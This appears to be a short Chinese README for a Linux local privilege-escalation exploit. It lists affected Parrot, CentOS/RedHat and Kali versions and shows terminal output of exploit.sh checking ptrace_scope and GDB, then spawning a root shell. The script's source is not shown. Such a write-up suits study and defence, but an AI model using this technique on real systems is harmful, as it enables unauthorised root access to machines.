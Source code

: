 ## 受影响系统:
Parrot Home/Workstation    4.6 (Latest Version)  
Parrot Security            4.6 (Latest Version)  
CentOS / RedHat            7.6 (Latest Version)  
Kali Linux              2018.4 (Latest Version)  

## 提权过程
```shell script
┌─[s4vitar@parrot]─[~/Desktop/Exploit/Privesc]
└──╼ $./exploit.sh

[*] Checking if 'ptrace_scope' is set to 0... [√]
[*] Checking if 'GDB' is installed...         [√]
[*] System seems vulnerable!                  [√]

[*] Starting attack...
[*] PID -> sh
[*] Path 824: /home/s4vitar
[*] PID -> bash
[*] Path 832: /home/s4vitar/Desktop/Exploit/Privesc
[*] PID -> sh
[*] Path
[*] PID -> sh
[*] Path
[*] PID -> sh
[*] Path
[*] PID -> sh
[*] Path
[*] PID -> bash
[*] Path 1816: /home/s4vitar/Desktop/Exploit/Privesc
[*] PID -> bash
[*] Path 1842: /home/s4vitar
[*] PID -> bash
[*] Path 1852: /home/s4vitar/Desktop/Exploit/Privesc
[*] PID -> bash
[*] Path 1857: /home/s4vitar/Desktop/Exploit/Privesc

[*] Cleaning up...                            [√]
[*] Spawning root shell...                    [√]

bash-4.4# whoami
root
bash-4.4# id
uid=1000(s4vitar) gid=1000(s4vitar) euid=0(root) egid=0(root) grupos=0(root),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(debian-tor),124(bluetooth),136(scanner),1000(s4vitar)
bash-4.4#
```
